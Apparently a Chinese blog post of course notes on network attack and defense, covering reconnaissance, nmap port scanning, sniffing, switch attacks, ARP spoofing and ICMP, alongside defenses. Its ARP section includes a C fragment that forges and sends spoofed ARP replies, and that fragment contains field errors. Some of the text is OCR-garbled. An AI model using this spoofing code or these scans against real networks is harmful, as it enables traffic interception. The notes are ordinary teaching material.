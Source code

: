 ```yaml
---
layout: post
title:  网络攻防技术知识点整理
date:   2013-06-25 00:50:00
categories: [网络攻防]
tags: [网络攻防]
---
```


#网络攻防技术

##网络信息收集技术

###踩点
对某组织或足迹进行有计划有步骤踩点，收集整理一份关于其的信息安防现在的完整剖析图

	1. 因特网信息
	2. 内联网信息
	3. 远程访问系统
	4. 外连网信息

搜索引擎的使用

	1. 目标信息一定含有的关键字(⽤用“ ”连起来)
	2. 目标信息不能含有的关键字(用“-”去掉)
	3. 目标信息可能含有的关键字(用“OR”连接)
	4. 支持“＊”作为通配符
	5. “＋”强制搜索关键词
	6. “site：” 限制网站
	7. “link：” 查找谁引用了你的链接
	8. “filetype：”查找特定文件
	9. “allintitle” 表示标题中含有所有的关键字
	10. “intitle” 标题含有第一个关键字
	11. “info” 网站摘要信息

网络上的Whois服务

whois就是一个用来查询域名是否已经杯注册，以及注册域名的详细信息的数据库，使用43号端口。

DNS服务

##网络扫描

* 主机扫描
	
	检查主机是否活跃
	主要方式：1.传统的ICMP 2.ACK ping 3.SYN ping 4.UDP ping
	防御：考虑对ICMP通信的过滤策略

* 端口扫描
	
	连接目标主机的TCP和UDP端口，确定那些服务正在运行即处于监听状态的过程。
	TCP/UDP(1-64K),运行网络应用服务
	由IANA/ICANN负责分配
	目的：更加了解说管理的网络状况，找出没有必要开放的端口并关闭，这是保证业务网络安全的第一步，

	TCP连接扫描
	
		调⽤用connect() socket函数连接⺫⽬目标端⼝口 
		开放端⼝口:完成完整的TCP三次握⼿手(SYN,SYN|ACK, ACK),timeout/RST 
		关闭端⼝口:SYN, RST
		优势&弱势:⽆无需特权⽤用户权限可发起,⺫⽬目标 主机记录⼤大量连接和错误信息,容易检测
		
	SYN扫描
	
		半开扫描(half-open scanning)
		开放端⼝口:攻击者SYN,⺫⽬目标主机SYN|ACK,攻击者⽴立即反馈RST包关闭连接
		关闭端⼝口:攻击者SYN,⺫⽬目标主机RST
		优势&弱势:⺫⽬目标主机不会记录未建⽴立连接

* 扫描实践之NAMP
	
		命令格式 nmap [Scan Type...] [Options] {target specification}
		即: nmap[<扫描类型> ...][<选项> ]{ < 扫描⺫⽬目标说明> }
	端口在NMAP里的六个状态:
		unfiltered(未被过滤的) 未被过滤状态意味着端口可访问，但Nmap不能确定它是开放还是关闭
		open|filtered(开 放或者被过滤的)当无法确定端口是开放还是被过滤的，Namp就把该端口划分成这种状态。开放的端口不响应就是一个例子。 没有响应也可能意味着报文过滤器丢弃了探测报文或者它引发的任何响应。因此Nmap无法确定该端口是开放的还是被过滤的。UDP，IP协 议，FIN，Null和Xmas扫描可能把端口归入此类
		closed|filtered(关闭或者未被过滤的) 该状态用于Nmap不能确定端口是关闭的还是被过滤的。它只可能出现在IPID Idle扫描中

##网络嗅探技术

* 网络嗅探的胃寒与作用
		
		攻击者：内网渗透技术窃取机密信息，为发起进一步攻击收集信息
		防御者：管理员可以用来监听网络的流量情况，定位网络故障，为网络入侵检测系统提供底层数据来源基础
		其他作用：开发网络应用的程序员可以监视程序的网络情况
* 以太网的工作原理
		载波侦听/冲突检测(CSMA/CD: 802.3, carrier sense multiple access with collision detection)技术
			载波侦听：每个站点，同等的权利，发送前监听信道是否空闲，
				如果空闲，就传输自己的数据
				如果信道被占用，就等待信道空闲
			冲突检测则是为了防止发生两个站点同时监测到网络没有被使用时而产生冲突
		采用了CSMA/CD技术，使用了广播机制，所以，所有在同一媒介信道上连接的工作站都可以看到网络上传递的数据

* 网卡的工作模式

		网卡的MAC地址(48位)
			ARP引入
			MAC地址相对固定且唯一
		正常情况下，网卡应该只接收这样的包
			MAC地址与自己相匹配的
			包/组播包
		两种接收模式
			混杂模式：不管数据帧中的目的地址，所有都接收
			非混杂模式：只接收目的地址相匹配的数据帧，以及广播数据包(和组播数据包)
		为了监听，设置为混杂模式	
* 共享式网络和交换式网络
		
		共享式网络
			通过Hub(集线器)连接
			总线方式: 通过网络的所有数据包 			发往每一个主机
			能够嗅探整个Hub上全部网络流量
		交换式网络
			通过Switch(交换机)连接
			由交换机构造一个“MAC地址-端口”映射表
			发送包的时候，只发到特定端口上只能监听同一端口上流量
* 交换式网络中的嗅探攻击
		MAC地址洪泛攻击
			向交换机发送大量虚构MAC地址和IP地址数据包
			致使交换机“MAC地址-端口映射表”溢出
			交换机切换入所谓的“打开失效”模式-“共享式”
		MAC欺骗
			假冒所要监听的主机网卡，将源MAC地址伪造成目标主机的MAC地址
			交换机不断地更新它的“MAC地址-端口映射表”
			交换机就会将本应发送给目标主机的数据包发送给攻击者
		ARP欺骗
			利用IP地址与MAC地址之间进行转换时的协议漏洞
			ARP无状态性
##欺骗与会话劫持
* 网络安全属性
		机密性，完整性，可用性，真实性，不可抵赖性

* ARP欺骗

	1. ARP协议工作原理
			
			将网络主机的IP地址解析成其MAC地址
				①每台主机设备上都拥有一个ARP缓存(ARP Cache)
				②检查自己的ARP缓存，有，直接映射，无，广播ARP请求包
				③检查数据包中的目标IP地址是否与自己的IP地址一致，如一致，发送ARP响应，告知MAC地址
				④源节点在收到这个ARP响应数据包后，将得到的目标主机IP地址和MAC地址对映射表项添加到自己的ARP缓存中	
				ARP欺骗：发送伪造ARP消息，对特定IP所对应的MAC地址进行假冒欺骗，从而达到恶意目的
	2. ARP欺骗程序实现
			ARPPACKET  ARPPacket;
			ARPPacket.ehhdr.eh_type=htons(0x0806);  //数据类型ARP请求或应答
			ARPPacket.arphdr.arp_hrd = htons(0x0001); //硬件地址为0x0001表示以太网地址
			ARPPacket.arphdr.arp_pro = htons(0x0800); //协议类型字段为0x0800表示IP地址
			ARPPacket.ehhdr.eh_dst=0xAAAAAAAAAAAA   //A机的MAC
			ARPPacket.ehhdr.eh_src=0xCCCCCCCCCCCC    //C机的源MAC
			ARPPacket.arphdr.arp_hln = 6;                  
			ARPPacket.arphdr.arp_pln = 4;
			ARPPacket.arphdr.arp_op = htons(0x0002);      //ARP应答值为2
			ARPPacket.arphdr.arp_spa = 0xCCCCCCCCCCCC //伪造的MAC，在这里C机用的自己的
			ARPPacket.arphdr.arp_tha = 0xAAAAAAAAAAAA //
			ARPPacket.arphdr.arp_spa =inet_addr("192.168.1.172");  //伪造B的IP地址
			ARPPacket.arphdr.arp_tpa = inet_addr("192.168.1.200");   //目标A的IP地址
			//把要发送的数据保存在一个缓冲区szPacketBuf中，到时候只要把szPacketBuf的数据发送出去就可以了。
			memcpy(szPacketBuf, (char*)&ARPPacket, sizeof(ARPPacket));
			//要发送数据，首先得打开一个适配器
			PacketGetAdapterNames((char*)AdapterName, &AdapterLength); //取得所有适配器的名字.
			LPPACKET lpAdapter =PacketOpenAdapter((LPTSTR) AdapterList[0]); //打开第一块适配器
			//下标是从0开始的。指向一个初始化的ADAPTER Object
			lpPacket = PacketAllocatePacket(); //为_PACKET结构配内存
			PacketInitPacket(lpPacket, szPacketBuf, 60); //packet结构中的buffer设置为传递的szPacketBuf指针
			PacketSetNumWrites(lpAdapter, 2); //设置发送次数为2次
			//一切就绪发送：
			PacketSendPacket(lpAdapter, lpPacket, TRUE); //通过打开的适配器把			szPacketBuf的数据发送出去。
			PacketFreePacket(lpPacket);         //释放_PACKET结构
			PacketCloseAdapter(lpAdapter);      //关闭适配器
			然后 在A机上的运行中输入arp -a 会发现原来的 192.168.1.172 BB-BB-BB-BB-BB-BB
			变成 192.168.1.172 CC-CC-CC-CC-CC-CC 了
	3. ARP欺骗攻击防范措施
			静态绑定关键主机的IP地址与MAC地址映射关系
				网关/关键服务器
				“arp-s IP地址MAC地址”
			使用相应的ARP防范工具
				ARP防火墙
			使用VLAN虚拟子网细分网络拓扑 			加密传输数据以降低ARP欺骗攻击的危害后果
##ICMP相关攻击

* ICMP定义
		ICMP（Internet Control Message Protocol ）
		RFC 792中定义了ICMP协议 ，ICMP 在 IPv6 定义中重新修订
		IP提供不可靠和无连接的数据传送，ICMP正是为了补偿IP的缺陷而设计。
		ICMP协议设计的最初目的主要是用于IP层的差错报告，由路由器或信宿以一对一的模式向信源报告传输错误的原因。
		随着网络的发展，检测和控制功能逐渐被引入到ICMP协议中，使得ICMP协议不仅用于传输差错报告，而且大量用于传输控制报文。
* ICMP的功用
		ICMP报文提供针对网络层的错误诊断、拥塞控制、路径控制和路由器或主机信息的查询服务四项功能.
* ICMP报文
		1. ICMP报文由首部和数据段组成。首部为定长的8个字节，前4个字节是通用部分，后4个字节随报文类型的不同有所差异。报文中类型字段和代码字段来决定不同类型。
		2. ICMP 报文分为查询报文和差错报文两类。

* ICMP差错报文
		
		ICMP的主要责任之一是报告错误。ICMP使用源IP地址将差错报文发送给数据报的源端。一共有五种差错可处理：目的端不可达 超时 参数问题 源端抑制 改变路由。

* ICMP的限定

		ICMP差错报告具有以下特点
  			1. 只报告差错，但不负责纠正错误，纠错工作留给高层协议去处理。
  			2. 发现出错的设备只向信源报告差错。
  			3. 差错报告作为一般数据传输，不享受特别优先权和可靠性。
  			4. 产生ICMP差错报告的同时，会丢弃出错的IP数据报。
  			
